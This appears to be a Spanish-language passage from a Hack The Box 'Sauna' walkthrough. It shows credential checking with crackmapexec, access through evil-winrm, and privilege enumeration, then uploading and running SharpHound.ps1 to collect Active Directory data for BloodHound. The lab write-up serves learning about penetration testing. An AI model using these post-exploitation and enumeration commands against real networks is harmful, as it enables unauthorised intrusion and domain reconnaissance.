 ![[Pasted image 20240611210206.png]]

### crackmapexec
confirmamos que estas son las credenciales correctas y también podemos establecer conexión vía evil-winrm
![[Pasted image 20240611210215.png]]

### evil-winrm
obtenemos conexión
![[Pasted image 20240611210227.png]]

### Enumeración de permisos 
`whoami /priv`  `net user svc_loanmgr`
![[Pasted image 20240611210235.png]]

### BloodHound
```python
# instalar bloodhound 

sudo apt install neo4j bloodhound
```

abrimos bloodhound 
![[Pasted image 20240611210244.png]]

### SharpHound.ps1
descargamos la herramienta [SharpHound.ps1](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1) con un `wget`
![[Pasted image 20240611210251.png]]

### Upload
```python
cd C:\Windows\temp

mkdir Privesc

cd Privesc

upload /home/kali/Desktop/htb/Sauna/SharpHound.ps1

```

![[Pasted image 20240611210257.png]]

### Recopilación de información con SharpHound.ps1
```python
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```
hemos generado un archivo llamado `20240314172620_BloodHound.zip` lo descargaremos a nuestra maquina atacante para poder analizarlo
![[Pasted image 20240611210321.png]]

